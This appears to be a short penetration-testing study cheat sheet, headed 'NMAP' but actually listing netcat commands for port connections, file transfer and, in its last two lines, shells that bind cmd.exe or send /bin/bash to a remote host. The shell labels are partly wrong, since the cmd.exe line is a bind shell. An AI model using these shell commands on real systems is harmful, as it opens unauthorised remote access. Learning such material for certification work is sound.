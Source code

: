 ## NMAP

#### Useful Links

[OSCP Survival Guide - port-scanning](https://github.com/frizb/OSCP-Survival-Guide#port-scanning)

#### Read and write TCP and UDP Packets

##### Connect to a POP3 mail server  
`nc -nv $ip 110`

##### Listen on TCP/UDP port  
`nc -nlvp 4444`

##### Connect to a netcat port  
`nc -nv $ip 4444`

##### Send a file using netcat  
`nc -nv $ip 4444 &lt; /usr/share/windows-binaries/wget.exe`

##### Receive a file using netcat  
`nc -nlvp 4444 &gt; incoming.exe`

##### Create a reverse shell with Ncat using cmd.exe on Windows  
`nc -nlvp 4444 -e cmd.exe`

##### Create a reverse shell with Ncat using bash on Linux  
`nc -nv $ip 4444 -e /bin/bash`

